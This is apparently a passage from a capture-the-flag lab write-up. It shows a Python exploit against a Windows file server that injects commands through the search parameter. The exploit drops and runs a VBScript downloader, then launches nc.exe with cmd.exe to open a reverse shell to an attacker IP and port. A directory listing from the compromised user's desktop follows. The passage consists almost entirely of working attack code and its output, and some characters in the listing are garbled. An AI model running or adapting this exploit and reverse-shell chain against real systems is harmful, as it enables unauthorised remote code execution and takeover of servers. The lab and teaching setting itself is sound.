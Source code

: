 ```python                                        
  
#Usage : python Exploit.py <Target IP address> <Target Port Number>
 
 
import urllib2
import sys
 
try:
    def script_create():
        urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")
 
    def execute_script():
        urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")
 
    def nc_run():
        urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")
 
    ip_addr = "10.10.14.75" #local IP address
    local_port = "42069" # Local Port number
    vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adi>
    save= "save|" + vbs
    vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
    exe= "exec|"+vbs2
    vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
    exe1= "exec|"+vbs3
    script_create()
    execute_script()
    nc_run()
except:
    print """[.]Something went wrong..!
    Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
    Don't forgot to change the Local IP address and Port number on the script"""
```

Then I catch the connection back on my listener and boom we are the user `kostas`:

```console
C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

09/02/2020  04:16 ��    <DIR>          .
09/02/2020  04:16 ��    <DIR>          ..
09/02/2020  06:20 ��    <DIR>          %TEMP%
08/02/2020  05:18 ��               745 checks.txt
08/02/2020  06:51 ��           560.128 exploit.exe
08/02/2020  05:11 ��                 7 hello.txt
18/03/2017  02:11 ��           760.320 hfs.exe
18/03/2017  02:13 ��                32 user.txt.txt
               5 File(s)      1.321.232 bytes
               3 Dir(s)  31.894.876.160 bytes free
```
